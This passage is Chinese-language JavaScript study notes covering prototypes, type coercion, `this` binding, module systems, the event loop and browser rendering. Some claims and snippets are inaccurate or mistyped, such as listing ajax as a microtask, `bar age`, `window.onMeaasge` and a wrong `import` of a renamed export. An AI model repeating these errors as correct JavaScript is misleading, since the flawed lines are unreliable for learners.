    * 具有循环引用的对象时，报错
    * 只能拷贝自身可枚举属性
    * 当值为函数、undefined、或symbol时，无法拷贝
* 递归进行逐一赋值
* Object.create(obj)
    * 生成的对象的原型指向obj 主要是用于继承**原型链**

### 原型和实例的关系
* A instanceof B : A的原型链中出现过的**B的原型** 返回true
* B.prototype isPrototypeOf(A) ： A的原型链中出现的**B.prototype** 返回true

### new运算符的执行过程
* 生成新对象
* 链接到原型 新对象.`_proto_` = 对象.prototype 

> 或者`Object.setProtoTypeOf(newobj,constructor.prototype)`
* 绑定this 指向新对象 var result = constructor.call(newobj);
*  result是否是对象 ? result ： 新对象 (null不会被当作对象，虽然`typeOf null === 'Object'`)
 
```js
    function constructor(){
        return new Object();
    }
    var obj = new Object();
   // Object.setPrototypeOf(obj,constructor.prototype) ;
    obj.__proto__ = constructor.prototype;
    var result = constructor.apply(obj,arr);
    return result是否是对象 ? result ： obj 

```


### 代码复用 
* 函数封装
* 继承
    * extendss继承（es6）  class A extendss B
    * 复制extends  
    * 使用jQuery的$.extends({},a) 浅拷贝
    * $.extends(true,{},a); 深复制
    * Undersource  _.extends()
 
* 混入mixin 一种模式  
    * 如果一个对象需要使用其他多个对象已经定义的"功能"的时候，我们就可以使用mixins复用代码
    * 一个对象的属性拷贝到另一个对象上面去
* 借用apply/call

（for-of 遍历数组值）

### 类型转换 
大家都知道 JS 中在使用运算符号或者对比符时，会自带隐式转换，规则如下:

* -、*、/、% ：一律转换成数值后计算
* +：

    * 数字 + 字符串 = 字符串， 运算顺序是从左到右
    * 数字 + 对象， 优先调用对象的valueOf -> toString
    * 数字 + boolean/null -> 数字
    * 数字 + undefined -> NaN
* [1].toString() === '1'
* {}.toString() === '[object object]'
* NaN !== NaN 、+undefined 为 NaN

* number
* boolean
* string
* undefined
* null
* Symbol

### 类型检查 
* typeof  obj      （number boolean string undefined object function ）
    * NaN 的数据类型是 number
    * 数组(Array)的数据类型是 object
    * 日期(Date)的数据类型为 object
    *  **null 的数据类型是 object**  String(null) 来判断
    * 未定义变量的数据类型为 undefined
* obj instanceof XXX（Array Date RegExp Object 原型链上有）
* constructor 返回构造函数
* Object.prototype.toString.call(obj) 返回[object XXX] 来判断

```js
let class2type = {}
'Array Date RegExp Object Error'.split(' ').forEach(e => class2type[ '[object ' + e + ']' ] = e.toLowerCase()) 

function type(obj) {
    if (obj == null) return String(obj)
    return typeof obj === 'object' ? class2type[ Object.prototype.toString.call(obj) ] || 'object' : typeof obj
}
```

### 类型比较

#### valueOf()
* Date ->   数字 距离初始时间过去的毫秒数
* 其他 ->   自身

#### toString()
* Number ->     '123'
* Boolean ->    'true'|'false'
* Array ->      '1,2,3'
* RegExp ->     '/123/'
* Date ->       'Wed Oct 11 2017 08:00:00 GMT+0800 (中国标准时间)'
* function ->   'function(){ return 1;}'
* Object ->     '[object Object]' 调用原型上的toString

#### 强制转换
调用Number() String() Boolean()

#### 隐式转换
* +，==   String Number
* *，/，- 只会转换成Number


* === 不会隐式类型转换
* == 会进行隐式类型转换，两个被比较的值转换为相同基本类型

在 == 比较的过程中
* 类型相同时，直接比较 
    * NaN == NaN false
    * null == null true
    * undefined == undefined true
    * **null == undefined  true**
    * **null 和 undefined 不能转换成其他值**
    * 两个对象，则比较是否指向同一个对象
    * **如果是两个引用类型比较，则比较他们的地址是否相同**
* 不同类型，进行隐式转换 预期什么类型的值
    * 自动转化为Boolean
    * 自动转化为Number
    * 自动转化为String 


例子：
```js
[] == ![]
//{} == false
if([])
[1] == [1]
```

**三种隐式转换**
* ToPrimary
* ToNumber
* toString

#### ToPrimary 转化为基本类型
* 如果已经是基本类型，则直接返回
* Date 先调用**toString**,如果不是基本类型，再调用**valueOf**
* 其他类型  先调用**valueOf**,如果不是基本类型，再调用**toStirng**

#### ToNumber
* 对象类型 调用ToPrimary(obj,Number);
* 再调用ToNumber
* 转换规则
    * undefined ->  NaN
    * null ->       0
    * '123' ->      123
    * 'd12' ->      NaN
    * boolean ->    0|1

#### ToString 转换为字符串的规则
* 转换规则
    * undefined ->  "undefined"
    * null ->       "null"
    * boolean ->    "true"|"false"
    * 123 ->        "123"
    * `[] / [null] / [undefined]`-> '' ,数组中的null或undefined，会被当做空字符串处理
    * 对象 -> `[object Object]`

#### ToBoolean
* false : 0 NaN false undefined null ''
* 其它值转为布尔型都为true

```js
  [] == ![] // true

  [] == 0 // true
  
  [2] == 2 // true

  ['0'] == false // true

  '0' == false // true

  [] == false // true

  [null] == 0 // true    [null].toString() = ''

  null == 0 // false

  [null] == false // true

  null == false // false

  [undefined] == false // true

  undefined == false // false

```
### 箭头函数 与 普通函数
* 箭头函数在定义时直接绑定其内部this为其上下文this (箭头函数根本没有自己的this，导致内部的this指向了外层代码的this，这个指向在定义时就已经确定而不会在调用时指向其执行环境的（变量）对象。)
* 箭头函数本身内部**没有this**，所以不能当作构造函数使，也**没有原型**，因为在new一个实例时，需要将this指向实例，以及将构造函数的原型赋值给实例的 `__proto__`
* 没有arguments，super，new.target，都会指向外层的对应变量

例1：
```js
var handler = {
  id: '123456',

  init: function() {
    document.addEventListener('click',
      event => this.doSomething(event.type), false);
  },

  doSomething: function(type) {
    console.log('Handling ' + type  + ' for ' + this.id);
  }
};

handler.init(); // 调用handler.init()时，其函数中的this为handler
let init = handler.init
init(); // 这里 init执行时this执行window
```
在调用init()时`this.doSomething`中的`this`绑定在了`handler`上。

**回调函数中的this引用当前元素**，本题中如果不用箭头函数，那么在执行时，`this.doSomething`中的`this`指向**document**

例2：

```js
const cat = {
  lives: 9,
  jumps: () => {
    this.lives--;
  }
}
cat.jumps();

//绑定到了window上
```

```js
var button = document.getElementById('press');
button.addEventListener('click', () => { //绑定到window
  this.classList.toggle('on');
});

document.addEventListener('click', function() {
    console.log(this) //  绑定到document
}, false)

document.addEventListener('click', function() {
  setTimeout(function() {
    console.log(this) //  绑定到window 
  })
}, false)
//window
```
**setTimeout是window对象下的一个方法**
this都绑定了全局环境window

```js
var button = document.getElementById('press');
button.addEventListener('click', function() {
  this.classList.toggle('on');
});

var x = {
    name :'x',
    runFun(fun){
        console.log(this); //x
        fun();
    }
}

x.runFun(function(){console.log(this)}); //fun中this指向window


```
this指向button

例3：
```js
// ES6
function foo() {
  this.id=1
  setTimeout(() => {
    console.log('id:', this);  //foo
  }, 100);
}
new foo();

function foo() {
this.id=1
  setTimeout(function () {
    console.log('id:', this);  //window
  }, 100);
}
new foo();

// ES5
function foo() {
  var _this = this;
  setTimeout(function () {
    console.log('id:', _this.id);
  }, 100);
}
new foo();
```
ES5中实现箭头函数，通过that保存当前的this值（闭包）

如果不使用箭头函数，setTimeout回调函数的this指向window。

#### 箭头函数的作用域

```js
// 常规写法
var greeting = () => {let now = new Date(); return ("Good" + ((now.getHours() > 17) ? " evening." : " day."));}
greeting();          //"Good day."
console.log(now);    // ReferenceError: now is not defined 标准的let作用域

// 参数括号内定义的变量是局部变量（默认参数）
var greeting = (now=new Date()) => "Good" + (now.getHours() > 17 ? " evening." : " day.");
greeting();          //"Good day."
console.log(now);    // ReferenceError: now is not defined

// 对比：函数体内{}不使用var定义的变量是全局变量
var greeting = () => {now = new Date(); return ("Good" + ((now.getHours() > 17) ? " evening." : " day."));}
greeting();           //"Good day."
console.log(now);     // Fri Dec 22 2017 10:01:00 GMT+0800 (中国标准时间)

// 对比：函数体内{} 用var定义的变量是 **局部变量**
var greeting = () => {var now = new Date(); return ("Good" + ((now.getHours() > 17) ? " evening." : " day."));}
greeting(); //"Good day."
console.log(now);    // ReferenceError: now is not defined
```
### addEventListener 回调函数的this
this的值是触发事件的元素的引用

当使用 addEventListener() 为一个元素注册事件的时候，句柄里的 this 值是该元素的引用。其与传递给句柄的 event 参数的 **currentTarget**（不是current属性） 属性的值一样。
```js
var button = document.getElementById('press');
button.addEventListener('click', function() {
 console.log(this);
});
// button

var button = document.getElementById('press');
button.addEventListener('click', () => {
 console.log(this);
});
// window
```

如果一个事件的属性( 例如. onClick)是指定在一个HTML的元素上的，则这个属性中的JavaScript语句实际上会被包裹在一个处理函数中，在这个处理函数中使用this的效果和使用addEventListener来绑定事件的效果是一样的； this的出现代表了元素的引用。注意到在一个函数里this调用的的效果和标准规则里面是一样的。

```js
<button onclick="alert(this.tagName.toLowerCase());">
  Show this
</button>
// button
<button onclick="alert((function() { return this; })());">
  Show inner this
</button>
//window
```
###  setTimeout 回调函数的this
```js
var o = {
    delay(){
        setTimeout(function(){
            console.log(this)
        },1000)
    }
}
o.delay()
//window

var o = {
    delay(){
        setTimeout(()=>{
            console.log(this)
        },1000)
    }
}
o.delay();
//{delay:f}
```

### forEach 中的 this
如果给 forEach() 传递了 thisArg 参数，当调用时，它将被传给 callback 函数，作为它的 this 值。否则，将会传入 undefined 作为它的 this 值(this，执行window)。

`x.forEach(function(v){console.log(this)},{y:1})`,不要使用箭头函数，否则会绑定箭头函数的this

### 模块化

* ES6 ：export import 值是动态绑定的 
    * 静态化 先于模块内其他语句执行，**命令具有提升效果**
    * export输出文件内部变量、函数、类 export {a,b as B,c}; import {a,B,c} from ' '
    * export default  为模块指定默认输出， 一个模块只能有一个默认输。本质上，export default就是输出一个叫做default的变量或方法 
        * export default a; import a from ' '
    * import  命令具有提升效果
        * import * from "" 模块的整体加载，加载文件中全部的export 
    * import() 函数 动态加载 返回一个 Promise 对象
        * 加载模块成功以后，这个模块会作为一个对象，当作then方法的参数
    * 循环加载

```js
// a.mjs
import {bar} from './b'; 
console.log('a.mjs');
console.log(bar());
function foo() { return 'foo' } //声明提前
export {foo}; //声明提前

// b.mjs
import {foo} from './a';
console.log('b.mjs');
console.log(foo());
function bar() { return 'bar' }
export {bar};

$ node --experimental-modules a.mjs
b.mjs
foo
a.mjs
bar

//a.mjs 改成如下
import {bar} from './b';
console.log('a.mjs');
console.log(bar);
var foo = 'foo'; //声明提前  let不会声明提前
export {foo};

b.mjs
undefined
a.mjs
bar
```

例如：
```js
//输出单个变量
var name = nirean;
export {name}

//输出一组变量
var name = nirean;
bar age = 22;
function getHabby(){

};
export {name , age, geyHabby};

//as 重命名
export {name as myname};
import myname from ''
// circle.js输出两个函数 import * 整体加载
 
export function area(radius) {
  return Math.PI * radius * radius;
}

export function circumference(radius) {
  return 2 * Math.PI * radius;
}

import * as circle from './circle';

console.log('圆面积：' + circle.area(4));
console.log('圆周长：' + circle.circumference(14));

// export default 不需要{ }
export default getName;
import getName from '...';

// export default 为模块指定默认输出
export default function(){};
import getName from '...';
```

* NodeJS中的commonJS ：**require exports module.exports**
    * module.exports exports require 指向同一个对象（同一块内存地址）
    * CommonJS规范加载模块是**同步**的，也就是说，只有加载完成，才能执行后面的操作 不适合浏览器
    * require()用来引入外部模块； 
        * 读入并执行一个JavaScript文件，然后返回该模块的exports对象
        * 第一次加载某个模块时，Node会缓存该模块。以后再加载该模块，就直接从缓存取出该模块的module.exports属性
    * exports对象用于导出当前模块的方法或变量，唯一的导出口；
    * module.exports nodeJS仅仅为了方便，用了一个变量exports直接指向了module.exports了
    * module对象就代表模块本身。
    * 循环加载。由于 CommonJS 模块遇到循环加载时，返回的是当前已经执行的部分的值，而不是代码全部执行后的值，两者可能会有差异。并且**每一个模块只执行一次**
```js
//a.js
exports.done = false;
var b = require('./b.js');
console.log('在 a.js 之中，b.done = %j', b.done);
exports.done = true;
console.log('a.js 执行完毕');

//b.js
exports.done = false;
var a = require('./a.js');
console.log('在 b.js 之中，a.done = %j', a.done);
exports.done = true;
console.log('b.js 执行完毕');

//main.js
var a = require('./a.js');
var b = require('./b.js');
console.log('在 main.js 之中, a.done=%j, b.done=%j', a.done, b.done);

//结果
//在 b.js 之中，a.done = false
//b.js 执行完毕
//在 a.js 之中，b.done = true
//a.js 执行完毕
//在 main.js 之中, a.done=true, b.done=true
```

* AMD (require.js) 异步加载模块
    * 通过define方法，将代码定义为模块；通过require方法，实现代码的模块加载

```js
define(['foo','bar'],function(m1,m2){
    ……
    return {
        foo,bar
        //返回接口
    }
})

require(['foo','bar'],function(foo,bar){
    ……
})
```

```js
module.exports.x = x;  var y = require(""); y.x
module.exports = x; var y = require(""); y
module.exports = {x:x}; var y = require(""); y.x
//ES6 解构赋值
var {x} = require(''); 
```

#### AMD （require.js）
异步加载，加载完成之后才会执行回调函数,

依赖前置，提前执行（在定义模块的时候就声明依赖的模块，即如果模块以及该模块的依赖都加载完了，那么就执行）

[实例](https://github.com/zgfang1993/blog/issues/29)
[加载时机，文章末尾](https://juejin.im/post/5c3592b26fb9a049aa6f4456#heading-10)
```js
// 定义方式一：定义math.js模块
define(function () {
    var basicNum = 0;
    var add = function (x, y) {
        return x + y;
    };
    return {
        add: add,
        basicNum :basicNum
    };
});

//a.js
define(['b'],function(data){ //依赖于b的模块
    ...
    return {
        fn
    }
})

/** 网页中引入require.js及main.js **/
<script src="js/require.js" data-main="js/main"></script>


/** main.js 入口文件/主模块 **/
// 首先用config()指定各模块路径和引用名
require.config({
  baseUrl: "js/lib",
  paths: {
    "jquery": "jquery.min",  //实际路径为js/lib/jquery.min.js
    "underscore": "underscore.min",
  }
});

require(['a.js'],function(a){
    a.fn();
})
```

#### CMD （sea.js）
延迟执行（运行到需要时加载，根据顺序执行）

```js
// module.js
define(function(require,exports,module){
    var $ = require('jquery.js');
    exports.add = function(){

    }
})

seajs.use(['module.js'].function(data){
    data.add();
})
```
#### script 浏览器加载
 默认是**同步加载**，会存在 windows全局遍历被污染，根据模块之间的依赖调整代码编写顺序
 * `<script defer="defer">`:延迟加载，元素解析完成后执行,但是 script.js 的执行要在**所有元素解析完成**之后，DOMContentLoaded 事件触发之前完成
 * `<script async>`: 异步加载，但执行时会阻塞元素渲染，下载时是并发的，**下载完后立即执行**
 
 没有这两个标签 浏览器会在遇到js代码就立即执行，“立即”指的是在渲染该 script 标签之下的文档元素之前，也就是说不等待后续载入的文档元素，读到就加载并执行。

两者都会并行下载，不会影响页面的解析 defer会在元素渲染完之后执行 ，async下载完后立即执行

```js
<script src="path/to/myModule.js" defer></script>
<script src="path/to/myModule.js" async></script>
```
* defer 要等到整个页面在内存中正常渲染结束（DOM 结构完全生成，以及其他脚本执行完成），才会执行；**渲染完再执行**
* async 一旦下载完，渲染引擎就会中断渲染，执行这个脚本以后，再继续渲染。**下载完就执行**

```js
<script type="module" src="./foo.js"></script>
<!-- 等同于 -->
<script type="module" src="./foo.js" defer></script>
```

async如何保证有依赖关系的文件顺序加载
```js
    function loadJS(url,next){
        var domScript = document.createElement('script');
        domScript.async = true;
        next = next || function(){};
        domScript.onload = function(){
            console.log('onload');
            next();
        }
        document.querySelector('body').appendChild(domScript);
        domScript.src = url;
    }
    
    loadJS('./train.js',()=>{
        loadJS('./train.js');
    })
```

### require与import的区别
* require支持 **动态导入**（地址中包含变量），import 不支持，正在提案 (babel 下可支持) ->import()

* require是 **值拷贝**，导出值变化不会影响导入值；import指向 **内存地址**，导入值会随导出值而变化
* CommonJS 模块是**运行时加载**，ES6 模块是**编译时输出接口**。因为 CommonJS 加载的是一个对象（即module.exports属性），该对象只有在脚本运行完才会生成；ES6 模块不是对象，而是通过 export 命令显式指定输出的代码，import时采用静态命令的形式。即在import时可以指定加载某个输出值，而不是加载整个模块。
> JS引擎对脚本静态分析的时候，遇到模块加载命令import就会生成一个只读引用。等到脚本真正执行时，再根据这个只读引用到被加载的模块中取值。我的理解，CommonJs是从对象中取值，也就是内存地址，只有在运行时才有对象指向的内存地址。而es6模块，只是通过export import 来指定输出输入的代码，在编译阶段就存在了。
* ES6 模块**不会缓存运行结果**，而是动态地去被加载的模块取值,并且导入的变量是**只读**的;而 CommonJS 模块无论加载多少次，都只会在第一次加载时运行一次，以后再加载，就返回第一次运行的结果，除非手动清除系统缓存。

相同点
* **都只执行一次模块**

```js
// commonJS
// lib.js
var counter = 3;
function incCounter() {
  counter++;
}
module.exports = {
  counter: counter,
  incCounter: incCounter,
};

//index.js
var mod = require('./lib');

console.log(mod.counter);  // 3
mod.incCounter();
console.log(mod.counter); // 3

//ES6
// lib.js
var counter = 3;
function incCounter() {
  counter++;
}
export {counter,incCounter}
//index 
import {counter,incCounter} from 'lib,js'

console.log(counter);  // 3
incCounter();
console.log(counter); // 4
```

#### webpack 打包对require的处理
其实 webpack 就是将每一个 js 文件封装成一个函数，每个文件中的 require 方法对应的就是 `__webpack_require__`， `__webpack_require__` 会根据传入的 moduleId 再去加载对应的代码。而当我们想导出 js 文件的值时，要么用 module.exports，要么用 exports，这就对应了module, module.exports两个参数。

[vue打包配置](https://juejin.im/post/5bc30d5fe51d450ea1328877#heading-16)
[webpack插件](https://segmentfault.com/a/1190000019065326)
### 同步 异步
* 同步 
    * 如果在函数返回的时候，调用者就能够得到预期结果
    * 如果函数是同步的，即使调用函数执行的任务比较耗时，也会一直等待直到得到预期结果。
* 异步
    * 如果在函数返回的时候，调用者还不能够得到预期结果，而是需要在将来通过一定的手段得到，那么这个函数就是异步的。
    * 如果函数是异步的，发出调用之后，马上返回，但是不会马上返回预期结果。调用者不必主动等待，当被调用者得到结果之后会通过回调函数主动通知调用者。

### 防抖与节流
#### 防抖 (debounce)
将多次高频操作优化为只在最后一次执行，通常使用的场景是：用户输入，只需再输入完成后做一次输入校验即可
```
function debounce(fn, wait, immediate) {
    let timer = null

    return function() {
        let args = arguments
        let context = this

        if (immediate && !timer) {
            fn.apply(context, args)
        }

        if (timer) clearTimeout(timer)
        timer = setTimeout(() => {
            fn.apply(context, args)
        }, wait)
    }
}

```

#### 节流(throttle)
每隔一段时间后执行一次，也就是降低频率，将高频操作优化成低频操作，通常使用场景: 滚动条事件 或者 resize 事件，通常每隔 100~500 ms执行一次即可
```
function throttle(fn, wait, immediate) {
    let timer = null
    let callNow = immediate
    
    return function() {
        let context = this,
            args = arguments

        if (callNow) {
            fn.apply(context, args)
            callNow = false
        }

        if (!timer) {
            timer = setTimeout(() => {
                fn.apply(context, args)
                timer = null
            }, wait)
        }
    }
}

```

### AST 抽象语法树
将代码逐字母解析成 树状对象 的形式


### babel编译原理
* babylon 将 ES6/ES7 代码解析成 AST
* babel-traverse 对 AST 进行遍历转译，得到新的 AST
* 新 AST 通过 babel-generator 转换成 ES5


### 函数柯里化 
在一个函数中，首先填充几个参数，然后再返回一个新的函数的技术，称为函数的柯里化。通常可用于在不侵入函数的前提下，为函数 预置通用参数，供多次重复调用。
```js
const add = function add(x) {
	return function (y) {
		return x + y
	}
}

const add1 = add(1)

add1(2) === 3
add1(20) === 21
```

实现函数的连续调用
```js
function multy(y){
    function fn(x){
        return multy(x*y);
    }
    fn.valueOf = function(){
       return y;
    }
    return fn;
}

multy(1)(2)(3).valueOf();
```

### Array
#### 数组乱序
```js
var arr = [1, 2, 3, 4, 5, 6, 7, 8, 9, 10];
arr.sort(function () {
    return Math.random() - 0.5;
});
```

#### 数组铺平    
如果数组都是数字 ，`[1,[2,3]] --> [1, 2, 3]`
```js
Array.prototype.flat = function() {
    return this.toString().split(',').map(item => item-0 )
}
```

### Promise
```js
//new Promise直接执行，返回Promise对象
new Promise((resolve,reject)=>{
    if(successed)
    {
        resolve(value); //成功返回结果
    }
    else{
        reject(error);  //失败返回错误信息
    }
}).then((value)=>{
    // 成功的回调函数
},
(error)=>{
    //只能捕捉到promise的错误
    //如果在then后面的回调函数出错，则无法捕捉到，需要使用catch
})
.catch((err)=>{
    //出错处理... 如果在then后面的回调函数出错
})
```
#### Promise throw
Promise的构造函数，以及被 then 调用执行的函数基本上都可以认为是在 try...catch 代码块中执行的，所以在这些代码中即使使用 throw ，程序本身也不会因为异常而终止。

如果在Promise中使用 throw 语句的话，会被 try...catch 住，最终promise对象也变为Rejected状态。

----------------------------------------------------------------
### 跨标签页通讯
#### postMessage (子页面 只有它可以跨域)
* 父页面 通过 window.open() 或 iframe标签 打开子页面
* 子页面对象调用 postMessage(msg,targetOrigin)发送消息
    * targetOrigin 表示可以获得**该消息所在的域**也可以设置为"*"，表示任何域名都可取得消息
* 子页面中，通过window.addEventListener("message",(evt)=>{},false)取得消息
    * evt中 data为传递的消息 
```js
window.postMessage(date,url);

window.onMeaasge((e)=>{
    e.data;
})
```
#### localStorage 同源
* 同一浏览器的相同域名和端口的不同页面间可以共享相同的 localStorage，但是不同页面间无法共享sessionStorage的信息。

* localStorage和 sessionStorage的主要区别是：localStorage的生命周期是永久的，意思就是如果不主动清除，存储的数据将一直被保存。而sessionStorage顾名思义是针对一个session的数据存储，生命周期为当前窗口，一旦窗口关闭，那么存储的数据将被清空。

* localstorage是浏览器多个标签共用的存储空间，所以可以用来实现多标签之间的通信(ps：session是会话级的存储空间，每个标签页都是单独的）。
* 直接在window对象上添加监听即可：
* **onstorage**以及storage事件，针对都是**非当前页面对localStorage进行修改时才会触发**，当前页面修改localStorage不会触发监听函数。然后就是在对原有的数据的值进行修改时才会触发，比如原本已经有一个key会a值为b的localStorage，你再执行：localStorage.setItem('a', 'b')代码，同样是不会触发监听函数的

```js
window.localStorage.setItem(key,value)

window.onstorage = (e)=>{ e.key e.newValue e.oldValue}

window.addEventListener('storage',fn);
```

#### BroadcastChannel 同源
每个页面创建**名称相同**的频道，通过 onmessage 来接受频道广播的信息，通过 postMessage() 方法可以广播信息给所有加入当前频道的页面。
```js
// A.html
const channel = new BroadcastChannel('tabs')
channel.onmessage = evt => {
	// evt.data
}

// B.html
const channel = new BroadcastChannel('tabs')
channel.postMessage('hello')
```

#### 定时器setInterval+cookie 同源 
* document.cookie = 改变cookie的值
* setInterval(getcookie(),100);

#### html5浏览器的新特性 SharedWorker  同源
共享线程，通过**保存每一个页面的port**来进行广播
* 普通的直接使用new Worker()即可创建，这种webworker是当前页面专有的。然后还有种共享worker(SharedWorker)，这种是可以多个标签页、iframe共同使用的。
* SharedWorker可以被多个window共同使用，但必须保证这些标签页都是**同源**的(相同的协议，域名和端口号)

```js
// A.html
var sharedworker = new SharedWorker('worker.js')
sharedworker.port.start()
sharedworker.port.onmessage = evt => {
	// evt.data
}

// B.html
var sharedworker = new SharedWorker('worker.js')
sharedworker.port.start()
sharedworker.port.postMessage('hello') //向sharedworker发送消息

// worker.js
const ports = []
onconnect = e => {
	const port = e.ports[0]
	ports.push(port)
	port.onmessage = evt => {
		ports.filter(v => v!== port) //sharedworker分发消息
		.forEach(p => p.postMessage(evt.data))
    }
    //如果使用 addEventListener('message0,e=>{}')
    //需要加上 port.start();
}

```
#### webSocket 跨浏览器 跨域
在浏览器和服务器之间建立一个**不受限的双向通信的通道**
WebSocket连接必须由浏览器发起，特点：
1. 建立在 TCP 协议之上，服务器端的实现比较容易。
2. 与 HTTP 协议有着良好的兼容性。默认端口也是80和443，并且握手阶段采用 HTTP 协议，因此握手时不容易屏蔽，能通过各种 HTTP 代理服务器。
3. 数据格式比较轻量，性能开销小，通信高效。
4. 可以发送文本，也可以发送二进制数据。
5. **没有同源限制**，客户端可以与任意服务器通信。
6. 协议标识符是ws（如果加密，则为wss），服务器网址就是 URL。

```js
//client.js

var socket = io('127.0.0.1:3000');
socket.on('message', (data)=>{
    console.log(data)
})
document.getElementById('click').addEventListener('click',()=>{
    console.log('send')
    socket.emit('message','how are you')
})

//server.js
var app = require('express')();
var http = require('http').Server(app);
var websocket = require('socket.io')(http);

//监听客户端 3000端口
http.listen(3000, function () {
    console.log('listening on *:3000');
});

websocket.on('connection',socket=>{
    socket.on('message',(msg)=>{
        console.log(msg + ' from client');
        websocket.emit('message','how are you');
    })
    
})
```

### 浏览器架构
* 用户界面
* 主进程
* 内核
    * 渲染引擎
    * JS引擎
        * 执行栈
    * 事件触发线程
        * 消息队列
            * 微任务
            * 宏任务
    * 网络异步线程
    * 定时器线程


### 浏览器下事件循环(Event Loop)

主线程只会做一件事情，就是从消息队列里面取消息、执行消息，再取消息、再执行。当消息队列为空时，就会等待直到消息队列变成非空。而且主线程只有在将当前的消息执行完成后，才会去取下一个消息。这种机制就叫做事件循环机制，取一个消息并执行的过程叫做一次循环

#### 过程
* 在此次 tick 中选择最先进入宏任务队列的任务(oldest task)，如果有则执行(一次)
* 检查是否存在 Microtasks，如果存在则不停地执行，直至清空 Microtasks Queue （在执行微任务的时候，如果又有微任务进入队列，则在此次循环中执行）
* 更新 render （视图更新）
* 主线程重复执行上述步骤
上述为一轮事件循环


#### 宏任务 微任务
* 微任务 microtask(jobs): promise / ajax / Object.observe(该方法已废弃)
* 宏任务 macrotask(task): setTimout / **script（整体代码）** / IO（有太多的东西都可以称之为I/O，点击一次button，上传一个文件，与程序产生交互的这些都可以称之为I/O） / UI Rendering（页面渲染）
    * 宏任务优先级 优先执行冒泡的事件

> 程序的script代码也算宏任务，所以第一次事件循环首先执行的是script代码，再去清空微任务队列


特点
* 一个线程中，事件循环是唯一的，但是任务队列可以拥有多个
* setTimeout/Promise等我们称之为任务源。而进入任务队列的是他们指定的具体执行任务。
* 来自不同任务源的任务会进入到不同的任务队列。其中setTimeout与setInterval是同源的。

[参考](http://lynnelv.github.io/js-event-loop-browser)
### setTimeout setInterval
**第三个参数用来传递第一个函数需要的参数数据**，是参数列表 
```js
setTimeout((a,b,c)=>{console.log(a,b,c)},1000,a,b,c)
```
在等待的时间结束后才将任务提交到任务队列

**最好使用setTimeout来模拟setInterval**，因为 setInterval 是每个一段时间往消息队列中添加回调函数，如果前一个任务执行时间过久，那么多个 setInterval回调函数可能会同一时间连续执行。如果使用 setTimeout 可以保证每个回调函数之间的间隔时间，因为只有在前一个任务执行完毕再间隔一段时间，下一个回调函数才会添加到消息队列。

```js
function alertTime(count) {
var max = 100;
    console.log(count);
    count++;
    if (count < max) {
        setTimeout(alertTime, 1000,count);
    }
}

setTimeout(alertTime, 1000,1,1);

// 可避免setInterval因执行时间导致的间隔执行时间不一致
function mySetInterval(fn,timeout,...args){
    var timer = setTimeout(() => {
        fn.apply(this,args);
        mySetInterval(fn,timeout,...args);
    }, timeout);
}
```

### node下事件循环(Event Loop)
这里指 node 版本小于11，大于11与浏览器相同

在一次事件循环中，会先处理完所有的宏任务队列，再处理所有的微任务队列


> 在执行微任务的时候，如果又有微任务进入队列，则在此次循环中执行；但是执行宏任务队列时再次添加宏任务，会留到下一次事件循环执行

### 从输入 url 到展示的过程
1. DNS 解析 域名 -> ip
这一步的工作是解析DNS获取正确的IP地址，解析域名的第一步是查找**浏览器**缓存，再查找本机硬盘HOST文件是否有对应的IP地址，如果本机硬盘HOST文件内没有，再查看**路由器**缓存，如果都没有，那么浏览器会发送一个DNS请求到ISP （ISP 是**互联网服务提供商**，中国的电信联通等）的DNS服务器，本地DNS服务器会首先查找自己的缓存记录，如果没有将继续发送请求至**DNS根服务器**，再往下逐级查找到正确的IP地址。

2. DNS 服务器查询到与域名相对应的 IP 地址，然后返回给浏览器，浏览器再将 IP 地址打在协议上，同时请求参数也会在协议搭载，然后一并发送给对应的服务器。HTTP请求，向服务器发送 HTTP 请求阶段，HTTP 请求分为三个部分
3. TCP 三次握手建立连接
4. 发送 HTTP 请求，分析 url，设置请求报文(头，主体)
    * 状态行 包括 请求方法（get post put delete），url，版本协议 (http https)
    * 请求头 包括 请求的附加信息，由键值对组成 (cookie origin referer)
    * 请求体 包括 请求参数数据
5. 服务器处理请求并返回 HTTP 报文
    * 状态行 协议版本（http https），状态码，状态码描述
        * 1xx：指示信息--表示请求已接收，继续处理。
        * 2xx：成功--表示请求已被成功接收、理解、接受。
        * 3xx：重定向--要完成请求必须进行更进一步的操作。
        * 4xx：客户端错误--请求有语法错误或请求无法实现。
        * 5xx：服务器端错误--服务器未能实现合法的请求。
    * 响应头 包含响应报文的附加信息，由 名/值 对组成 （set-cookie access-control-allow-origin/method cache-control）
        * content-type: text/html text/xml text/plain (txt) image/jpeg; charset=utf-8
    * 响应体 响应返回数据
6. 浏览器拿到响应文本 HTML,浏览器进行渲染
    * HTML parser --> DOM Tree
        * 标记化算法，进行元素状态的标记
        * **dom 树**构建
        * 根据 HTML 的内容，将标签按照结构解析成为 DOM 树，DOM 树解析的过程是一个深度优先遍历。即先构建当前节点的所有子节点，再构建下一个兄弟节点。
        * 在读取 HTML 文档，构建 DOM 树的过程中，若遇到 script 标签，则 DOM 树的构建会暂停，直至脚本执行完毕。
    * CSS parser --> Style Tree
        * 解析 css 代码，生成**样式树**
        * 解析 CSS 规则树时 js 执行将暂停，直至 CSS 规则树就绪。
        * 浏览器在 CSS 规则树生成之前不会进行渲染。   
    * attachment --> Render Tree
        * 结合 dom树 与 style树，生成**渲染树**
    * layout: 据渲染树来布局，以计算每个节点的几何信息
        * 布局：通过渲染树中渲染对象的信息，计算出每一个渲染对象的位置和尺寸
        * 回流：在布局完成后，发现了某个部分发生了变化影响了布局，那就需要倒回去重新渲染。 
    * GPU painting: 像素绘制页面 **将各个节点绘制到屏幕上**
        * 重绘：某个元素的背景颜色，文字颜色等，不影响元素周围或内部布局的属性，将只会引起浏览器的重绘。
        * 回流：某个元素的尺寸发生了变化，则需重新计算渲染树，重新渲染。
7. 断开 TCP 连接
    * TCP 四次挥手


> CDN 内容分发网络，CDN系统能够实时地根据网络流量和各节点的连接、负载状况以及到用户的距离和响应时间等综合信息将用户的请求重新导向离用户最近的服务节点上。

## 服务端与网络
### HTTP/HTTPS
* 超文本传输协议HTTP被用于在**Web浏览器和网站服务器**之间传递信息，HTTP协议以明文方式发送内容，不提供任何方式的数据加密
* HTTPS在HTTP的基础上加入了SSL协议，SSL依靠证书来验证服务器的身份，SSL/TLS运行在TCP之上，并为浏览器和服务器之间的通信加密

不同
* HTTPS协议需要到CA申请证书，一般免费证书很少，需要交费。
* HTTP协议运行在TCP之上，所有传输的内容都是明文，HTTPS运行在SSL/TLS之上，SSL/TLS运行在TCP之上，所有传输的内容都经过加密的。
* HTTP和HTTPS使用的是完全不同的连接方式，用的端口也不一样，前者是80，后者是443。
